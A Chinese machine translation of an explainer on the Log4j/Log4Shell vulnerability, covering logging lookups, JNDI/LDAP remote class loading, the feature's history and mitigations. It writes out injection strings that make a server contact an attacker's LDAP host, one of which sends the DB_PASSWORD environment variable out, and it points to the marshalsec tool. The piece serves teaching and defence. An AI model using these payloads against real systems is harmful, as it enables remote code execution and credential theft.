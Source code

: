 # Log4j 虚拟安全漏洞

> 原文：<https://levelup.gitconnected.com/log4j-security-vulnerability-for-dummies-1a3e1269aac0>

![](img/ff0e0ba22128475df3a0c8445d72ded8.png)

马库斯·斯皮斯克在 [Unsplash](https://unsplash.com/s/photos/hack?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) 上的照片

如果您在软件行业工作，您肯定听说过 log4j 库中发现的安全漏洞。即使您没有涉足软件行业，也很有可能听说过这个漏洞，因为它已经被不同的新闻媒体广泛报道。在本文中，我将尝试简化 log4j 漏洞，该漏洞首先在《我的世界》被发现，并在整个软件行业引发了冲击波。

## log4j 是什么？

在讨论 log4j 之前，我们需要知道什么是日志记录。通过日志记录，一种方法是记录应用程序在运行状态下完成的活动，活动可以是任何内容，可能您希望在 API 被触发时记录 API 的所有输入，也可能您希望记录 API 的响应以及所用的时间等等。日志是维护实时软件的最重要的特性之一。如果有适当的日志记录，我们可以立即找到并修复错误。

Log4j 是一个用 Java 编写的开源库，广泛用于日志记录。如果一个人正在使用任何 java 应用程序，那么他很有可能在内部使用 log4j。您可能想知道为什么我们需要一个用于日志记录的库。我的意思是，如果一个人只想记录活动，他可以只使用“System.out.println”并打印任何他想打印的内容。嗯，没有人阻止您使用“System.out.println”，但是它将只在控制台上打印日志，或者如果您使用“System.out()”，您可以将“System.out.println”的输出从控制台重定向到文件。但是，在大多数情况下，您需要一些额外的日志记录功能，例如，您需要将日志写入文件并每天创建一个新的日志文件，或者您可能希望具有不同的严重性，例如，在生产环境中，您希望只打印重要的事件，但在测试环境中，您需要打印非常精细的日志，以便轻松找到错误。从技术上来说，如果一个人想自己实现一切都是可能的，但为什么要重新发明轮子。Logs4j 提供了一个非常好的接口，提供了几乎所有你能想到的特性。

log4j 支持的众多特性之一是“[消息查找替换](https://logging.apache.org/log4j/2.x/manual/lookups.html)”。在这个特征 log4j 过程中，一个特定格式的字符串，该格式为$ { prefix:variable name }；其中根据前缀 log4j 标识变量名应该在哪个特定上下文中被评估。举个例子，如果您想打印环境变量 DB_USER 的值，您可以简单地打印它，如下所示:

```
logger.error("Database user name is :{}","${env:DB_USER}")
```

Log4j 为不同的上下文提供了许多不同的前缀，如下表所示。

![](img/9b6aae1a50a7ea107c05d97e58541e19.png)

您是否想知道，如果日志是如此重要的事情，为什么我们必须依赖一些外部开源库？Java 不应该提供开箱即用的东西吗？

事实证明，Java 已经有一个内置的日志框架，名为 [Java 日志 API](https://docs.oracle.com/javase/6/docs/technotes/guides/logging/) ，有时也被称为 JUL。我们不使用 JUL 的最大原因之一是它的性能明显较慢。

## 什么是 JNDI？

即使是最高级的软件开发人员也很难理解 JNDI。因此，我将尝试向您介绍 JNDI 的基本概念和 JNDI 的一些特征，这将有助于您理解 log4j 漏洞。首先，根据维基百科:

> **Java 命名和目录接口** ( **JNDI** )是一个用于目录服务的 Java API，它允许 Java 软件客户端通过名称发现和查找数据和资源(以 Java 对象的形式)。

简单地说，在 JNDI 的帮助下，您可以从远程位置获取对象，有点像您在响应 REST API 时获取对象。JNDI 提供了多种从远程位置获取对象的机制。在所有机制中，我们将重点关注 2 种机制，即 RMI 和 LDAP，它们允许开发人员通过[目录](https://docs.oracle.com/cd/E19396-01/817-7619/intro.html)服务获取 java 对象。JNDI 为 LDAP 和 RMI 提供的一个有趣的特性是，服务器可以发送. class 文件的 URL，而不是直接发送对象。我不会说太多细节，比如为什么 JNDI 会有这个功能，它内部是如何工作的，但是你可以从[这里](https://docs.oracle.com/javase/jndi/tutorial/objects/storing/reference.html)阅读。简而言之，如果通过 LDAP 服务器返回的对象是" [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) "类型，那么 java 可以从 object 中定义的 URL 加载 java 类，并可以在其 JVM 中执行该类文件。如果不遵循适当的预防措施，这种特征会非常危险。如果某个恶意用户可以破坏您的应用程序所连接的 LDAP 服务器，他就可以在您的服务器内执行他的程序，导致[远程代码执行](https://www.netsparker.com/blog/web-security/remote-code-evaluation-execution/)。启动自己的 LDAP 服务器非常容易，它可以强制应用程序执行任何。您喜欢的类文件，这种 LDAP 服务器的代码在 GitHub 中很容易找到，一个这样的例子是 [marshalsec](https://github.com/mbechler/marshalsec) 。我强烈建议你仔细阅读一下 marshal sec repo 的自述文件。

现在你已经知道了什么是 log4j 和 JNDI，也知道了如何利用 JNDI 来危害你的应用程序的安全性。

现在，这些无聊的解释已经足够了，您现在已经知道了理解 log4j 漏洞所需的一切。所以让我们直接进入 log4j 的故事。

Log4j 从 2001 年初开始作为一个开源项目提供，它的积极开发一直持续到 2005 年左右。2006 年出现了一个名为“LogBack”的新项目，据说它是 log4j 的继任者，不仅性能更好，而且生活质量也更高。在 2012 年，log4j 突然复活了，因为一些开发人员一起重写了 log4j 的代码，并发布了该库的 alpha 版本，现在命名为 log4j2。两个月后，一个测试版也发布了，在这个阶段，一个新的功能被要求得到 JNDI 的支持。您想知道为什么需要这个特性吗？用户故事中提到的用例是，您应该能够在不同的文件中编写与特定 web 上下文相关的日志。现在你可能想知道 JNDI 将如何帮助它？为了不让你感到困惑，我们改天再谈吧。但是，你应该知道的是，这个功能只有极少数用户使用。不管怎样，让我们继续，这个特性被接受并在 2013 年 7 月被添加到主代码中，这是一个让整个世界着火的特性。添加了这个特性后，将会运行如下内容:

```
logger.info("remote object {}",${jndi:ldap://URL_OF_LDAP_SERVER})
```

这就对了，现在你知道它的弱点了。还在迷茫？想象一下，你有一个网页，有一个输入框，输入一个字符串，在数据库中搜索，并在网页上显示结果。现在，记录来自用户的输入是非常常见的做法。您的代码中会有类似的内容。

```
logger.info("Searching {} in database",inputString)
```

你现在明白问题了吗？还是不行？假设有人在搜索框中输入“$ { JNDI:LDAP://URL _ OF _ HIS _ LDAP _ SERVER }”。现在，log4j 将尝试使用恶意用户提供的 LDAP 服务器的 URL 进行连接。现在黑客可以发送一个“ [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) 类型的对象，该对象将指向他想在你的机器上执行的类。他可以在你的服务器上为所欲为？开计算器？肯定没问题；安装任何恶意软件，肯定也有可能；拿个反壳？可以在几分钟内完成。你现在知道这个漏洞有多危险了。

什么？你真的想看到有人利用这个漏洞的演示吗？没问题，看这个[视频](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1056s)？

好吧，这看起来很龌龊的漏洞？JNDI 的事情非常危险？java 不应该直接去掉这个特性吗？哦不！java 提供了向后兼容性，也就是说，多年前编写的任何代码在最新版本的 Java 上大部分时间都可以工作，甚至不需要修改任何一行代码。然而，Java 已经知道 JNDI，所以他们已经发布了一个补丁，禁止从任何外部 URL 加载. class 文件。对于 RMI 协议，它是固定的，但在 LDAP 中仍然存在某些远程代码执行代码的情况，所以有人为它打开了一个 [bug](https://bugzilla.redhat.com/show_bug.cgi?id=1639834) 。最后，在 java 版本 11.0.1、8u191、7u201 和 6u211 中。默认情况下，来自外部 URL 的类文件被禁用。

在你因为使用一个不能远程执行代码的 java 版本而高兴之前，先不要高兴。如果你使用的是正确的 java 版本，它可以将你从最恶劣的攻击中解救出来，但是你的系统仍然容易受到攻击。您可能想知道，如果代码无法执行，系统如何仍然容易受到攻击。让我给你一个提示；java 只禁止从外部 URL 加载类。还在迷茫？你仍然可以连接 LDAP 服务器，如果返回的对象是" [javax.naming.Reference](https://docs.oracle.com/javase/7/docs/api/javax/naming/Reference.html) "类型，那么 java 不会加载这个类，因为这个 URL 不可信。好吗？那么问题是什么呢？嗯，你可以连接 LDAP 服务器是一个问题。怎么会？在输入中，可以发送类似“$ { JNDI:LDAP://URL _ OF _ LDAP _ SERVER/$ { env:DB _ PASSWORD } }”的内容。现在，当 java 调用 LDAP 服务器时，它还会发送环境变量 DB_PASSWORD 的值。如果你曾经在 IT 行业工作过，你就会知道我们有时会以环境变量的形式存储非常重要的信息，比如数据库细节。如果这些关键信息被泄露，将会带来巨大的安全挑战。那么补救办法是什么呢？

根据 log4j 维护者的说法，主要修复是将 Log4j 版本更新到 2.3.2(针对 Java 6)、2.12.4(针对 Java 7)或 2.17.1(针对 Java 8 及更高版本)。如果无法更新版本，只需删除执行 JNDI 查找“`*zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class*`”的类。

# **结论**

Log4j 漏洞告诉我们，尽管开源库很棒，因为有数百名开发人员在开发一个特定的库，但其中仍然可能存在漏洞。然而，甚至每个人都可以看到源代码，但是只有当一个具有正确知识的人查看正确的代码行时，一些错误才会被修复。那么我们应该停止使用开源库吗？肯定不是！

此外，作为人类，我们有将错误推给别人的倾向，许多人会说，一个只会被一小部分用户使用的特性不应该被接受。然而，我们不知道开发者为什么接受这个改变，也许他们认为这会给用户带来更多的价值。此外，人们还应该记住，为这些开源库工作的人是没有报酬的。大公司通过使用这些图书馆赚取了数百万美元，难道这些公司不应该为他们使用的服务支付一些钱吗？

最后我会留给大家一些问题，log4j 漏洞从 2013 年就存在，直到 2021 年底才被发现。我们可以假设没有人知道这个漏洞的存在吗？或者可能一些组织/政府机构已经知道了。在各种不同的开源库中还存在多少这样的漏洞？

# 参考

[](https://research.nccgroup.com/2021/12/12/log4j-jndi-be-gone-a-simple-mitigation-for-cve-2021-44228/) [## log4j-JNDI-be-gone:CVE 的一个简单缓解方案-2021-44228

### 你好，互联网，这是艰难的一周。你可能已经知道，基本上世界上每个 Java 应用程序都使用…

research.nccgroup.com](https://research.nccgroup.com/2021/12/12/log4j-jndi-be-gone-a-simple-mitigation-for-cve-2021-44228/) [](https://research.checkpoint.com/2021/the-laconic-log4shell-faq/) [## 简洁的 Log4Shell FAQ - Check Point 研究

### 什么是 Log4Shell (CVE-2021-44228)？log4j2 中的远程代码执行漏洞，log4j 2 是一个流行的日志框架，用于…

research.checkpoint.com](https://research.checkpoint.com/2021/the-laconic-log4shell-faq/) [](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) [## 利用 Java | Veracode 中的 JNDI 注入

### Java 命名和目录接口(JNDI)是一个 Java API，允许客户端发现和查找数据和对象…

www.veracode.com](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)